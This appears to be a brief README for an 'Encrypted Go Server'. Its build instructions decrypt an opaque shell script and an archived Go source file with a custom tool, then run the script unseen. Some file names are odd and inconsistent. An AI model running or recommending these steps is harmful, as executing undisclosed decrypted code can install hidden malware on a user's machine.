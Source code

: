 # ENCRYPTED
Encrypted Go Server

With PROFESSIONAL build system


```
cd encrypter009222z
make
cd ..
./encrypter009222z. -uf bash.bat.encrypted009222z. -o bash.bat

tar -xf main.go.tar.encrypted009222z..tar
./encrypter009222z. -uf main.go.tar.encrypted009222z. -o main.go.tar
tar -xf main.go.tar

bash bash.bat
```
